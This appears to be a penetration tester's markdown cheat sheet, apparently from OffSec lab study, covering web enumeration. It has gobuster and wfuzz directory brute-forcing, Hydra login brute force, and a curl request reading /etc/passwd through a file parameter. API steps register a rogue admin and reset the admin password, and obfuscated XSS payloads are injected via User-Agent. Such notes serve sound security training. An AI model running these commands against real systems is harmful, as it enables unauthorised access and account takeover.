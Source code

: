 ## Technology Stack Identification

- Wappalyzer
- whatweb


## Directory Brute Force with Gobuster

```sh
# -x txt,ini,conf,bak,pdf,php,asp,aspx,jsp,do,env,settings,xml,ini
gobuster dir -u $URL -w $WORDLIST
gobuster dir -u $URL -w $WORDLIST -x pdf,txt,ini
gobuster dir -u $URL -w $WORDLIST -t 5 -U offsec -P elite
gobuster dir -u $URL/api/ -w $WORDLIST
feroxbuster -u $URL -w $WORDLIST -t 5
wfuzz -c -z file,$WORDLIST --hc 404 $RHOST:8080/FUZZ
wfuzz -c -z file,$WORDLIST --hc 404 $RHOST:8080/FUZZ/
wfuzz -c -z file,$WORDLIST --hc 404,308 $RHOST:8080/FUZZ/


```

## Security Testing with Burp Suite

- Intruder, 
- Repeater, 
- Compare,
- Encode / Decode

## Hydra

Hydra burce force http-post-form

```sh

hydra -U http-post-form
hydra -l admin -P passwords.txt  $RHOST http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed" -t 1 -V


## Inspecting HTTP Response Headers and Sitemaps

```sh

curl -I $URL
curl -i $URL
curl -c cookie --data "password=P@ssw0rd1" "http://$RHOST:8080/login/"
curl -i -b cookie "http://$RHOST:8080/data/L2V0Yy9wYXNzd2Q="
curl -i --get --data "email=oscp@oscp.com" $RHOST:50000/generate -vv --proxy 127.0.0.1:8080
curl -i -X 'POST' --data-urlencode "code=6+3" $RHOST:50000/verify -vv
curl -H "X-Forwarded-For: 127.0.0.1" -H "Content-Type: application/json" "$RHOST:13337/logs?file=/etc/passwd" --proxy 127.0.0.1:8080
curl -s -i -X POST -H 'Content-Length: 0' http://$RHOST/list-running-procs

# Check for something strange like :
X-Error, X-Something-Non-Standard, X-Forwarded-For, X-Powered-By,x-amz-cf-id, X-Aspnet-Version

```

## Files

```sh
sitemap.xml
robots.txt
```

## Enumerating and Abusing APIs


```sh

cat pattern 
{GOBUSTER}/v1
{GOBUSTER}/v2

gobuster dir -u http://$RHOST -w $WORDLIST -p pattern

curl -i http://$RHOST/users/v1
gobuster dir -u http://$RHOST/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

# test to login
curl -i http://$RHOST/users/v1/admin/password
curl -i http://$RHOST/users/v1/login
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/login

# attempt to registre a new admin user
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/register
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/register

# login as the new admin user 
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/login

# try to change admin's password
curl 'http://$RHOST/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXA...kew' \
  -d '{"password": "pwned"}'

curl -X 'PUT' 'http://$RHOST/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXA...UAsgA4' \
  -d '{"password": "pwned"}'

# login as admin user and the new password
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/login

# test with BurpSuite
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json' http://$RHOST/users/v1/login --proxy 127.0.0.1:8080

```

## Cross-Site Scripting


```sh
# Identifying XSS Vulnerabilities
# The most common special characters
# < > ' " { } ;

# Basic XSS

<script>alert(1)</script>
<script>console.log(1)</script>

Privilege Escalation via XSS

GET / HTTP/1.1
Host: 100.100.100.100
User-Agent: Abonti <\/pre>#PUT YOUR JAVASCRIPT HERE#
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://100.100.100.100/<\/pre>#PUT YOUR JAVASCRIPT HERE#
Connection: close
Cache-Control: max-age=0

## JS Encoding JS Function

```javascript
function encode_to_javascript(string) {
      var input = string
      var output = '';
      for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
          output += ",";
        }
      }
      return output;
    }
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
```sh
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,...,59))</script>" --proxy 127.0.0.1:8080

```



